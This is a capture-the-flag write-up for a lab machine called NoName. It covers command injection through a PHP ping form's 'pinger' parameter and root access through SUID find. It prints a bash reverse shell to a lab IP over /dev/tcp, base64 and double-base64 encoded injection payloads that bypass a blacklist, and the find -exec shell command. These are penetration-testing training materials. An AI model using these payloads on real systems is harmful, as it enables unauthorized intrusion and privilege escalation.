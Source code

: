 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
excerpt: "NoName is an intermediate rated Proving Grounds Play machine that covers command injection and SUID privesc."
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - SUID
ShowToc: true

---
```


NoName is an intermediate rated Proving Grounds Play machine that covers command injection and SUID privesc. 
<!--more-->
## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`.

Checking the`admin` endpoint only shows pictures posted with no additional functionality, the `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](/assets/images/PG/noname/2022-07-27-15-23-21.png)

![superadmin](/assets/images/PG/noname/2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](/assets/images/PG/noname/2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried to chain using `;` and `&` but it did not work, while trying `|` worked.

![](/assets/images/PG/noname/2022-07-27-15-43-36.png)

As we can see at the bottom of the screenshot we were able to successfully inject the `sleep` command resulting to a five second delay in the response. 

Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and binaries, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a `base64` encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](/assets/images/PG/noname/2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following `base64` encoded reverse shell payload still did not work:

```bash 
|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx'|base64 -d|bash
``` 

Which is really weird, So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the `base64` decoded payload instead of executing it with bash, and I got the following response
           
![](/assets/images/PG/noname/2022-07-27-16-48-44.png)

Looks like it is not printing the whole `base64` encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64 -d|base64 -d|bash`
```

![](/assets/images/PG/noname/2022-07-27-16-46-09.png)

## Privesc


Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](/assets/images/PG/noname/2022-07-27-16-52-16.png)

Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](/assets/images/PG/noname/2022-07-27-16-54-22.png)

